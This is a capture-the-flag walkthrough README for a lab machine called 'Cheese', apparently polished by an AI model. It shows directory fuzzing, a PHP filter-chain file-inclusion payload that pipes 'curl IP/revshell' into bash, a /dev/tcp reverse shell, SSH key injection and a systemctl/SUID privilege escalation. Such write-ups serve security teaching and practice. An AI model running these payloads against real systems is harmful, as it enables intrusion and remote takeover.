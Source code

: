 ```markdown
# Cheese Machine Walkthrough by @unknownperson

## Enumeration

### 1. Starting with Nmap

—> **Port Sniffer** shows that all ports are open, making port scanning unnecessary for this challenge.

### 2. Checking Port 80 (Web Server)

—> The website hosted on port 80 is a **Cheese Shop** with a login interface. However, no credentials were available, and it was not vulnerable to injection attacks.

## Directory Fuzzing

### 3. Directory Fuzzing with Gobuster

```bash
┌──(unknownperson㉿unknownperson)-[~/CTF/THM]
└─$ gobuster dir -u http://10.10.171.47/ -w /usr/share/wordlist/directory-list-2.3-medium.txt -t 25 -x txt,py,sh,php 
```

—> The fuzzing revealed several important directories like `login`, `images`, `messages`, and `users`.

→ The **Messages** section was crucial as it led us to a vulnerable **PHP filter Local File Inclusion (LFI)**, where we could view system files.

## Initial Access

### 1. Exploiting LFI to Gain RCE

We can leverage a tool from GitHub to generate a **base64 link** that exploits the **PHP filter** and executes a PHP command on the target server:

→ Tool: [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator)

#### Syntax:
```bash
$ python3 php_filter_chain_generator.py --help
```
- Example:
```bash
python3 php_filter_chain_generator.py --chain "<? `curl -s -L IP/revshell | bash` ?>"
```

→ **Step 1:** Create a reverse shell locally:
```bash
echo "bash -i >& /dev/tcp/IP/PORT 0>&1" > revshell
```

→ **Step 2:** Generate a base64-encoded payload using the tool and insert it into the URL:
```url
http://Victamip/secret-script.php?file=
```

→ **Step 3:** Start a Python HTTP server to host the reverse shell file.

→ **Step 4:** We successfully got the **initial access** with this method.

## Privilege Escalation

### 1. SSH Key Injection for a Stable Shell

—> The `/home/comet/.ssh/authorized_keys` file was writable, allowing us to add our **id_rsa.pub** key, securing a stable SSH connection.

### 2. Gaining Root Privileges

—> Running the **sudo** command revealed access to **systemctl**:
```bash
sudo -l
```

→ We can exploit the **exploit.timer** to trigger **exploit.service** and execute **xxd** with **SUID** bit permissions.

### 3. Exploiting the `xxd` Command

→ By manipulating **exploit.timer** to run every 5 seconds, we gained SUID permissions on **xxd**.

→ Finally, running the following command allowed us to read the **root flag**:
```bash
./xxd "/root/root.txt" | xxd -r
```

## Conclusion

### 🎉 **Rooted the Cheese Machine! Another successful pwn!**
```

This version of the README.md is more polished, structured, and engaging while clearly presenting the steps taken. Let me know if any further tweaks are needed!